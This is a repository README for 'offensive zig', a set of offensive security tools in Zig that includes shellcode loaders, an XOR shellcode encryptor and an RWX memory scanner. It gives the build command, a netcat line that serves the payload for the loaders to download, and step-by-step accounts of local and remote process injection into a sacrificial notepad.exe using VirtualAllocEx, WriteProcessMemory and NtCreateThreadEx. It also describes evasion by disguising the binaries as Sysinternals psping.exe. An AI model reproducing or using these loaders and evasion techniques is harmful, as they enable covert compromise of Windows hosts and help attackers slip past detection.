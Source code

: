 # offensive zig
> offensive security tools written in zig 

**NOTE**: built w/ zig 0.14.0-dev.138+02b3d5b58

# contents
**utilities**:
- xor.py
	script to xor encrypt shellcode

**tools**:
- rwxhunter
> identifies RWX memory regions for all processes

**shellcode loaders**:
- local
> injects shellcode downloaded from a remote socket in the local process and executes via a function pointer
- remote
> creates a sacrificial *notepad.exe* process, allocates RWX memory, then executes via remote thread

## opsec
> generally this is just a learning tool for me, but i am also trying to implement opsec-aware techniques which reduce detections for payloads

### masking executable metadata
executable metadata is masked to appear as `psping.exe` from Sysinternals, but this can be customized in `metadata.rc` 

## shellcode loaders
#### building
> this will build all payloads as individual `.exe` files

`zig build -Dtarget=x86_64-windows -Dhost="<ip>" -Dport=<port> -Dsize=<payload_size>`

#### running 
1. stage shellcode w netcat
	`sudo nc -vv -l -k -p 80 < payload.bin`
2. download & execute the `.exe` on target
3. profit

### local
#### overview
1. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
2. xor decrypts downloaded shellcode using hardcoded key

3. allocates RWX memory within the current process using `std.os.windows.VirtualAlloc` and copies the shellcode into the region

4. executes the memory by creating a function which points to the base address of the region: `const func: *const fn () callconv(.C) i32 = @ptrCast(memory);`

### remote
#### overview
1. spawns a new *notepad.exe* process in a suspended state and opens a handle to it
   
2. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
3. xor decrypts downloaded shellcode using hardcoded key
   
4. allocates RWX memory in the remote process using `VirtualAllocEx` and write shellcode to the region using `WriteProcessMemory`

5. finally, spawns a remote thread pointed at the memory region of the *notepad.exe* process which contains our shellcode using `NtCreateThreadEx`, then resumes the thread to execute
